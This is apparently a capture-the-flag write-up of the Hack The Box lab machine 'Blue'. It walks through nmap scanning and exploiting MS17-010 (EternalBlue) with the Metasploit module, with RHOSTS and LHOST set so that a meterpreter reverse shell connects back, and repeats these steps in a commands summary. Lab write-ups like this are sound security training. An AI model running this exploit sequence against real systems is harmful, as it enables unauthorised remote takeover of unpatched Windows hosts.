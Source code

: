# 🖥️ HTB Blue Writeup

**✳️ Box:** Blue  
**✳️ OS:** Windows  
**✳️ Difficulty:** Easy  

---

## 🔍 Enumeration

```bash
nmap -A 10.10.10.40
```

**Discovered open ports:**

```bash
PORT     STATE SERVICE      VERSION  
135/tcp  open  msrpc        Microsoft Windows RPC  
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn  
445/tcp  open  microsoft-ds Windows 7 Professional 7601 Service Pack 1
```

### 🧠 Observations:
- SMB is active on ports `139` and `445`.
- Target OS appears to be vulnerable to `ms17-010` (EternalBlue).

---

## 🔧 Vulnerability Scanning

```bash
nmap --script vuln -p 445 10.10.10.40
```

```bash
smb-vuln-ms17-010:  
  VULNERABLE:  
  Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
  State: VULNERABLE
```

---

## ⚔️ Exploitation

```bash
msfconsole
```

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.10.40
set LHOST 10.10.14.XX   # ← your tun0 IP
run
```

### ✅ Result:
You should receive a meterpreter shell confirming remote access.

---

## 🏁 Flags

- `User.txt`: ✅  
- `Root.txt`: ✅  

---

## 📸 Screenshots

| 🔎 Nmap Scan        | 🎯 Vulnerability Detected     | 💥 Exploitation via Metasploit |
|--------------------|-------------------------------|-------------------------------|
| ![nmap](../screenshots/blue-nmap.png) | ![vuln](../screenshots/blue-smb-vuln.png) | ![exploit](../screenshots/blue-exploit-msf.png) |

---

## 💡 Takeaways

- EternalBlue is still relevant in vulnerable legacy systems.
- Enumeration is key — SMB exposure quickly led to exploit confirmation.
- Exploiting known vulnerabilities can yield immediate results on retired HTB machines, but don’t skip recon!

---

## ⌨️ Commands Summary (cloudpunchr@kali)

```bash
cd ~/Pentest_Vault/HTB_Blue
nmap -A 10.10.10.40
nmap --script vuln -p 445 10.10.10.40
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.10.40
set LHOST 10.10.14.XX
run
```
